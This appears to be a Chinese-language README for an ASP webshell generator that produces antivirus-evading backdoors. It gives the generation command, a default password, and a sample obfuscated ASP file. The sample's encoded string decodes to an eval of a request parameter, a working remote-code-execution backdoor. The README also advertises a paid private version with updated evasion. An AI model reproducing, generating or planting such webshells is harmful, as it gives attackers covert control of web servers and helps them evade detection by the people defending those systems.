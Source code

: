 
# 2019.8.14 已知免杀已失效，获取星球内部版请戳

https://yzddmr6.tk/posts/webshell-venom-notice/

## 用法


`python3 asp_venom.py > test.asp`


即在当前目录下生成test.asp

## 默认密码:yzddmr6

可自行修改

## 生成样例:

```
<%
<!--
Function Hsnh(Bjhu):
	Bjhu = Split(Bjhu,"|")
	For x=1 To Ubound(Bjhu)
		Hsnh=Hsnh&Chr(Bjhu(x)-31)
	Next
End Function
EXecutE(Hsnh("|132|149|128|139|63|145|132|144|148|132|146|147|71|65|152|153|131|131|140|145|85|65|72"))
-->
%>
```

